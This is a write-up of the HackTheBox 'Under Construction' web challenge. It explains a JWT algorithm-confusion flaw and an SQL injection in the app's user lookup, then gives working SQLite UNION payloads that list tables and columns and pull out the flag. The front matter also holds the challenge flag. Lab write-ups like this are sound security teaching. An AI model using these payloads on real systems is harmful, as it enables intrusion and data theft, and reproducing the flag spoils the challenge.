 ```yaml
---
title: Under Construction
description: Under Construction box from HackTheBox write up.
password: HTB{d0n7_3xp053_y0ur_publ1ck3y}
---
```


# Under Construction <a href='/assets/resources/HackTheBox/UnderConstruction-resources.zip' title="Download resources"> :material-folder-zip:{:alt="Download resources"} </a>

## Static analysis

The challenge gives the webpage files so i started checking the code. In the `ìndex.js` file we can see the diferent paths we have: `/`, `/auth` and `/logout`. Everything looks right here so the next thing we can check is the `AuthMiddleware` that is what make sure if a user is logged in and who the user is.

The middleware is checking the cookies for a JWT token that will be decoded using the `JWTHelper` and if the token is right, the application will take the user name from the decoded token and check it in the database using the `DBHelper`. If the user exists the application sends the user to the index and if not it sends an error message. If the the token is incorrect or missing, the application responds with an error or redirecting to the login page respectively.

Let's talk about the helpers. Look's like the `JWTHelper` just contains functions to sign and verify/decode JWT tokens, the thing is that in the `decode` function the application is allowing the `HS256`, a symmetric algorithm, to verify the JWT. This means that we can sign tokens using the public key if we specify `HS256` as the algorithm (**JWT confusion attack**). About the `DBHelper`, it is mostly ok but for the `getUser` function because it is vulnerable to SQL injection. This function is called with the username contained in the JWT token to check if the user exists so we can enumerate the database.

## Attack

I wrote a Python script that generate the JWTs with a SQL injection payload, sends the tokens and parse the responses to make my life easier. We also know that the databse is SQLite (We know what payloads to use).

First to get the tables we can use:
```sqlite
' OR 1=2 UNION SELECT 1, group_concat(tbl_name), 3 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- -

Result --> flag_storage,users

```

Cool the `flag_storage` table looks promising let's enumerate it:

```sqlite
' OR 1=2 UNION select 1,group_concat(name),3 from pragma_table_info('flag_storage') -- -

Result --> id,top_secret_flaag
```

Now we can just get the flag with:

```sqlite
' OR 1=2 UNION select 1,group_concat(top_secret_flaag),3 from flag_storage -- -
```

